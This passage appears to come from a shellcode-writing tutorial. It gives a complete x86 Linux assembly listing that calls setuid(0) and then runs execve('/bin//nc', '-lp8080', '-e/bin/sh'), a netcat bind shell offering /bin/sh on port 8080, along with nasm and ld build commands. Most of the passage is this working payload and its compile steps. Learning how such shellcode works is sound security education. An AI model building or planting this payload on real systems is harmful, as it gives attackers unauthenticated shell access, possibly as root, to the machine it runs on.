 So *ebx*{: style="color: LightGreen"} already points to the *filename*{: style="color: LightGreen"} */bin//nc*{: style="color: LightSalmon"},
*ecx*{: style="color: LightGreen"} points to the array with the arguments and *edx*{: style="color: LightGreen"} is null, 
ready to be used as *envp[]*{: style="color: LightGreen"}. The only thing left is to load the *execve*{: style="color: LightGreen"} system call number
in *eax*{: style="color: LightGreen"} and execute the syscall.

```
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```

And the whole assemby code:
```
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```
## Testing time
Save the file and compile it. I saved mine as *shellcode-c137.asm*{: style="color: LightGreen"}
```
root@kali:~# nasm -f elf  shellcode-c137.asm
root@kali:~# ld -m elf_i386 -s -o shellcode-c137 shellcode-c137.o
```
This is a x86 assembly and to compile it on 64bit machine you should use the *-m elf_i386*{: style="color: LightGreen"} switch.
